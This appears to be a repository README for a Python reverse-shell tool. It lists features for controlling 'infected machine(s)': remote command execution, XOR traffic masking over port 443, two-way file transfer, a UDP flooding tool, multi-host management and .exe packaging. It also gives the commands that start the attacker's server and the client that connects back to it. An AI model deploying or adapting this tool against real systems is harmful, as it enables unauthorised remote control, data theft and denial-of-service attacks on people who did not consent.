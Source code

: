 # reverse_shell
> A reverse shell 

DISCLAIMER: I really shouldn't have to say this but DON'T USE THIS WITHOUT THE COMPUTER OWNER'S CONSENT

NOTE : As of v0.0.3 a folder "min" has been added. Since the new version has many more features not essential to the main functionality (a reverse shell that is), min will not recieve any more features beyond v0.0.2 and will only get bug and performance related fixes.

## Features

* Remote Command Execution
* Trafic masking (XORed insted of cleartext); for better results use port 443[1]
* Built-in File/Binary transfer (both ways) over the masked trafic
* Built-in UDP Flooding tool
* Multiple/All Hosts management; order File/Binary transfer and UDP Flood from Multiple/All connected Hosts
* Client script is tested and is compatible with PyInstaller (can be made into .exe)[2]

## Deployment:

* The server is situated at the attacker's machine and running to accept connections
* The client is situated in the infected machine(s) and will initiate the connection and wait for input. 

## Execution:

* Server:
```sh
  python rev_shell_server.py (max_connections) 
```
max_connections defaults to 5 if left blank

* Client: 
```sh
python rev_shell_client.py server_ip
```

Many changes can be made to fit individual needs.

As always if you have any suggestion, bug report or complain feel free to contact me.

## License

MIT

*[1]The idea for XORing as well as the skeleton for the client came from (http://www.primalsecurity.net) so if you like this pack of scripts you'll probably love what they do

*[2]Again check primalsecurity.net's perfect blogpost about producing an .exe
